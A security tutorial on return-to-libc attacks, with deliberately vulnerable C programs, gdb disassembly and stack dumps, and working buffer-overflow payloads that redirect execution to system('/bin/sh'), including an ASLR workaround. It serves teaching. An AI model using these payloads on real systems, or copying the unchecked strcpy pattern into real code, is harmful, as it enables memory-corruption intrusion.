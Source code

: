 # Return to `libc`

According to [4], a "return-to-libc" attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, bypassing the NX bit feature (if present) and ridding the attacker of the need to inject their own code.

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity3:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity3:latest
```

----

### Finding a vulnerability, a simple overflow

We'll be using the following program named `rlibc1.c`:
```C
void not_called() {
    printf("Enjoy your shell!\n");
    system("/bin/bash");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

Let's a get a bit more of information about the program structure in memory:
(*compiled with `-fno-stack-protector -z execstack` flags*)

```
>>> disas vulnerable_function
Dump of assembler code for function vulnerable_function:
   0x0804849d <+0>:	push   %ebp
   0x0804849e <+1>:	mov    %esp,%ebp
   0x080484a0 <+3>:	sub    $0x88,%esp
   0x080484a6 <+9>:	mov    0x8(%ebp),%eax
   0x080484a9 <+12>:	mov    %eax,0x4(%esp)
   0x080484ad <+16>:	lea    -0x6c(%ebp),%eax
   0x080484b0 <+19>:	mov    %eax,(%esp)
   0x080484b3 <+22>:	call   0x8048330 <strcpy@plt>
   0x080484b8 <+27>:	leave  
   0x080484b9 <+28>:	ret    
End of assembler dump.
>>> p not_called
$1 = {void ()} 0x804847d <not_called>
>>>
```

right before the call to `strcpy@plt`, the stack and registers looks like:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────
            address buffer  address string
0xffffd750 [6c d7 ff ff] [ba d9 ff ff] 01 00 00 00 38 d9 ff f7 l...........8...
                                                buffer
0xffffd760 00 00 00 00 00 00 00 00 00 00 00 00 [00 00 00 00 ................
0xffffd770 03 00 00 00 09 00 00 00 3f 00 c0 03 00 00 00 00 .... ...?.......
0xffffd780 34 d8 ff ff a8 d7 ff ff a0 d7 ff ff 69 82 04 08 4...........i...
0xffffd790 38 d9 ff f7 00 00 00 00 c2 00 00 00 56 ad eb f7 8...........V...
0xffffd7a0 ff ff ff ff ce d7 ff ff 34 0c e3 f7 f3 72 e5 f7 ........4 ...r..
0xffffd7b0 00 00 00 00 00 00 c3 00 01 00 00 00 fd 82 04 08 ................
0xffffd7c0 a2 d9 ff ff 2f 00 00 00 00 a0 04 08 32 85 04 08] ..../.......2...
                                    ebp           ret
0xffffd7d0 02 00 00 00 94 d8 ff ff [f8 d7 ff ff] [d3 84 04 08] ................
            string
0xffffd7e0 [ba d9 ff ff] 00 d0 ff f7 eb 84 04 08 00 10 fd f7 ................
0xffffd7f0 e0 84 04 08 00 00 00 00 00 00 00 00 f3 da e3 f7 ................
0xffffd800 02 00 00 00 94 d8 ff ff a0 d8 ff ff 6a ae fe f7 ............j...
0xffffd810 02 00 00 00 94 d8 ff ff 34 d8 ff ff 1c a0 04 08 ........4.......
0xffffd820 3c 82 04 08 00 10 fd f7 00 00 00 00 00 00 00 00 <...............
0xffffd830 00 00 00 00 cd fd 26 9d dd 99 23 a5 00 00 00 00 ......&...#.....
0xffffd840 00 00 00 00 00 00 00 00 02 00 00 00 80 83 04 08 ................
─── Registers ────────────────────────────────────────────────────────────────────────────
   eax 0xffffd76c        ecx 0xa52399dd        edx 0xffffd824        ebx 0xf7fd1000    
   esp 0xffffd74c        ebp 0xffffd7d8        esi 0x00000000        edi 0x00000000    
   eip 0x08048330     eflags [ PF SF IF ]       cs 0x00000023         ss 0x0000002b    
    ds 0x0000002b         es 0x0000002b         fs 0x00000000         gs 0x00000063    
```
A different representation of the stack available at [3] is:
```
| <arguments2>        |
| <return address>    |
| <old %ebp>          | <= %ebp
| <0x6c bytes of      |
|       ...           |
|       buffer>       |
| <arguments1>        |
| <address of buffer> | <= %esp
```
Note that the starting of the stack has get filled with the parameters for the call to `strcpy` (`arguments2`).

Launching `./rlibc1_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"` we obtain:
```bash
Enjoy your shell!
root@44522cd9481b:~#
```

Of course, this is with the stack protection disabled, when compiling the program without disabling this protections, the program just crashes and we can't perform the buffer overflow.

```bash
root@3bf52dad8e1d:~# ./rlibc1 "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"
*** stack smashing detected ***: ./rlibc1 terminated
Aborted
```

### Playing with arguments

Let's play with a slightly different program named `rlibc2.c`:
```C
char* not_used = "/bin/sh";

void not_called() {
    printf("Not quite a shell...\n");
    system("/bin/date");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```
We debug the program to obtain information about the `system` call and the `not_used` variable:
```
>>> disassemble not_called
Dump of assembler code for function not_called:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	sub    $0x18,%esp
   0x08048483 <+6>:	movl   $0x8048578,(%esp)
   0x0804848a <+13>:	call   0x8048340 <puts@plt>
   0x0804848f <+18>:	movl   $0x804858d,(%esp)
   0x08048496 <+25>:	call   0x8048350 <system@plt>
   0x0804849b <+30>:	leave  
   0x0804849c <+31>:	ret    
End of assembler dump.
>>> p not_used
$5 = 0x8048570 "/bin/sh"
```
The idea behind the exploit is to overflow the buffer with the `strcpy` call and modify the return address to point to the
 `system` call address with apprlibcriate parameters (not the default ones which will call `/bin/date`). The stack should look like:

 ```
| 0x8048570 <not_used>             |
| 0x43434343 <fake return address> |
| 0x8048350 <address of system>    |
| 0x42424242 <fake old %ebp>       |
| 0x41414141 ...                   |
|   ... (0x6c bytes of 'A's)       |
|   ... 0x41414141                 |
 ```

```bash
root@3bf52dad8e1d:~# ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x50\x83\x04\x08" + "CCCC" + "\x70\x85\x04\x08"')"
#
```

(*note, while debugging and playing with the overflow, the following command allows to exit normally `gdb --args ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "\x78\xd7\xff\xff" + "\x50\x83\x04\x08" + "\xd3\x84\x04\x08" + "\x70\x85\x04\x08"')"`.*)


### Return to `libc` attack

From [3], the trick is to realize that programs that use functions from a shared library, like `printf` from `libc`, will link the entire library into their address space at run time. This means that even if they never call system, the code for system (and every other function in `libc`) is accessible at runtime. We can see this fairly easy in gdb:

```
>>> p system
$1 = {<text variable, no debug info>} 0x555be310 <__libc_system>
>>> find 0x555be310, +99999999, "/bin/sh"
0x556e0d4c
warning: Unable to access 16000 bytes of target memory at 0x5572ef54, halting search.
1 pattern found.
```
Now from gdb:
```
gdb --args rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```
we'll get a shell. This however does not happen when launched directly from the command line due to ASLR [5]. To bypass this:
```
ulimit -s unlimited # from[3], disable library randomization on 32-bit programs
./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```

### Bibliography

- [1] M. Hicks (2014), *Software Security*, Coursera, Cybersecurity Specialization, University of Maryland, College Park, <https://www.coursera.org/learn/software-security>.
- [2] Hovav Shacham (2007), *The geometry of innocent flesh on the bone: return-into-libc without function calls (on the x86)*. In Proceedings of the 14th ACM conference on Computer and communications security (CCS '07). ACM, New York, NY, USA, 552-561. DOI: https://doi.org/10.1145/1315245.1315313
- [3] Alex Reece (2013). *Introduction to return oriented programming (ROP)*. Retrieved from http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html.
- [4] Wikipedia. *Return-to-libc attack*. Retrieved from https://en.wikipedia.org/wiki/Return-to-libc_attack.
- [5] Wikipedia. *Address space layout randomization*. Retrieved from https://en.wikipedia.org/wiki/Address_space_layout_randomization.
